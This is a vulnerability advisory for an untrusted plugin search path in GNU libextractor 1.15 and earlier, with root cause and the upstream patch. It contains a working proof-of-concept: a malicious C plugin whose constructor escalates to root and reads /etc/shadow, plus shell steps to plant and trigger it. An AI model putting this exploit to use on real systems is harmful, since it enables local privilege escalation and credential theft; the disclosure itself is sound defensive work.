

# Plugin Loader Untrusted Search Path in GNU libextractor ≤ 1.15

## Summary

GNU libextractor's plugin loading mechanism uses the `LIBEXTRACTOR_PREFIX` environment variable to determine where to load shared libraries (`.so` plugins) from. Because it uses `getenv()` instead of `secure_getenv()`, this environment variable is not stripped when a process runs with elevated privileges. An attacker can set `LIBEXTRACTOR_PREFIX` to a malicious directory, forcing any application that loads libextractor plugins to execute arbitrary code.

**Primary Impact:** Local Privilege Escalation (LPE) to `root`.

| Field | Value |
|-------|-------|
| Severity | **HIGH** (CVSS 4.0: 8.5) |
| CWE | CWE-426 (Untrusted Search Path) |
| Attack Vector | Local |
| Privileges Required | Low |
| User Interaction | None |
| Affected Versions | All versions through 1.15 |

> **Note:** For this vulnerability to result in Local Privilege Escalation, an administrator must have configured a binary that links to `libextractor` with the `setuid` bit. While `libextractor` itself does not ship with a `setuid` binary, any privileged process or system daemon that dynamically links this library and fails to manually sanitize the environment is vulnerable to full compromise.

## Affected Software

- GNU libextractor ≤ 1.15
- Any `setuid` binary or privileged daemon linking against `libextractor`

## Proof of Concept (Demo)



*The animation above demonstrates the exploit. The attacker compiles a malicious shared library (`evil_plugin.c`) and places it in `/tmp/evil_plugins`. By executing a `setuid` binary that uses `libextractor` and prefixing the command with `LIBEXTRACTOR_PREFIX=/tmp/evil_plugins`, the dynamic linker loads the malicious plugin with elevated privileges. This immediately executes arbitrary commands as root, demonstrated by writing the output of `id` and the restricted `/etc/shadow` file to `/tmp/privesc_proof`.*

## Attack Scenario & Exploitation

The vulnerability is primarily triggered by exploiting the `LIBEXTRACTOR_PREFIX` environment variable. 

*(Note: `libextractor` also contains secondary insecure fallbacks using `/proc/PID/maps` and writable `PATH` directories, but the environment variable injection is the most direct and reliable attack vector).*

### Proof of Concept Code

```c
/*
 * evil_plugin.c — Malicious libextractor plugin for privilege escalation
 * Compile: gcc -shared -fPIC -o libextractor_ole2.so evil_plugin.c
 *
 * Place in a directory and set LIBEXTRACTOR_PREFIX to that directory.
 * When any setuid application loads the OLE2 plugin, this constructor
 * escalates to full root (uid=0, gid=0) and runs arbitrary commands.
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void pwn(void) {
    /* Escalate: euid=0 allows setuid(0) which sets real uid=0 */
    setuid(0);
    setgid(0);

    /* Now running as full root — shell commands work */
    system("echo '=== PRIVILEGE ESCALATION PROOF ===' > /tmp/privesc_proof");
    system("id >> /tmp/privesc_proof");
    system("echo '' >> /tmp/privesc_proof");
    system("echo '--- /etc/shadow (root-only) ---' >> /tmp/privesc_proof");
    system("head -3 /etc/shadow >> /tmp/privesc_proof");
}

int _EXTRACTOR_ole2_extract_method = 0;
```

### Triggering the Exploit

Tested on Ubuntu 24.04 with libextractor 1.14:

```bash
# 1. Compile the malicious plugin
mkdir -p /tmp/evil_plugins
gcc -shared -fPIC -o /tmp/evil_plugins/libextractor_ole2.so evil_plugin.c

# 2. Simulate the misconfigured (setuid) target binary
sudo chown root:root /usr/local/bin/extract
sudo chmod u+s /usr/local/bin/extract

# 3. Trigger the exploit as an unprivileged user
rm -f /tmp/privesc_proof
LIBEXTRACTOR_PREFIX=/tmp/evil_plugins /usr/local/bin/extract testfile.doc
```

### Verification (Full Root)

```text
$ cat /tmp/privesc_proof
=== PRIVILEGE ESCALATION PROOF ===
uid=0(root) gid=0(root) groups=0(root),1000(user)

--- /etc/shadow (root-only) ---
root:!:20223:0:99999:7:::
daemon:*:19977:0:99999:7:::
bin:*:19977:0:99999:7:::
```

## Root Cause

In `src/main/extractor_plugpath.c`, the function `get_installation_paths()` calls standard `getenv()`:

```c
if (NULL != (p = getenv("LIBEXTRACTOR_PREFIX")))
```

Because it does not use `secure_getenv()`, the dynamic linker does not strip this variable when the binary is run with elevated privileges (unlike `LD_PRELOAD` or `LD_LIBRARY_PATH`). `lt_dlopenadvise()` then blindly loads `libextractor_<name>.so` from the attacker-controlled path.

## Official Patch (libextractor 1.16)

The maintainer fixed this in version 1.16 by replacing `getenv()` with `secure_getenv()`, which returns `NULL` when the process is running with elevated privileges (euid != uid).

```diff
-  if (NULL != (p = getenv ("LIBEXTRACTOR_PREFIX")))
+  if (NULL != (p = secure_getenv ("LIBEXTRACTOR_PREFIX")))
```

## Credit

Discovered by me (Haitam Lazaar) during my independent security research.

## Acknowledgments

Special thanks to **Christian Grothoff**, the maintainer of GNU `libextractor`, for his incredibly fast triage, professional communication, and rapid deployment of patches (v1.15, v1.16, and v1.17) to resolve this and several other memory safety issues reported during this audit.

## License

My research is provided for educational and defensive purposes. Use responsibly.
